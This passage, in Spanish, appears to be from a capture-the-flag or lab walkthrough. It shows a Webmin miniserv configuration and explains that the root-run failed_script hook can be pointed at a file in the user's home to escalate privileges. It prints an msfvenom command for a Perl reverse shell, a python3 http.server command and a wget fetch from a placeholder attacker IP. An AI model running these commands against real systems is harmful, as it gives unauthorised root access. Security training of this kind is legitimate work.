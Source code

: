 ```
session=1
premodules=WebminCore
server=MiniServ/1.979
userfile=/etc/webmin/miniserv.users
keyfile=/etc/webmin/miniserv.pem
passwd_file=/etc/shadow
passwd_uindex=0
passwd_pindex=1
passwd_cindex=2
passwd_mindex=4
passwd_mode=0
preroot=authentic-theme
passdelay=1
failed_script=/etc/webmin/failed.pl
logout_script=/etc/webmin/logout.pl
cipher_list_def=1
login_script=/etc/webmin/login.pl
sudo=1
```

Vemos que se esta ejecutando en el puerto `1000` que es el que vimos antes, es un `login`, tambien vemos esto:

```
failed_script=/etc/webmin/failed.pl
logout_script=/etc/webmin/logout.pl
cipher_list_def=1
login_script=/etc/webmin/login.pl
sudo=1
```

Vemos que cuando da un error en el `login` ejecuta el archivo `failed.pl` que esta en `perl` y se estaria ejecutando como `root` por lo que vamos aprovechar eso y vamos a generar un archivo en `perl` para realizar una `reverse shell` como `root`, pero antes tendremos que modificar dicha linea y redirigir esa ejeccucion a otro sitio en este caso en nuestra `home` dejando la linea de esta forma:

```
failed_script=/home/marie/failed.pl
```

Ahora si vamos a generar el `.pl`:

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > failed.pl
```

Una vez generado el archivo vamos abrir un servidor de `python3` para pasarnos el archivo a nuestra `home` del usuario, donde se va a ejecutar el `.pl`.

```shell
python3 -m http.server 80
```

Ahora en la maquina victima ejeuctaremos lo siguiente:

```shell
wget http://<IP_ATTACKER>/failed.pl
```

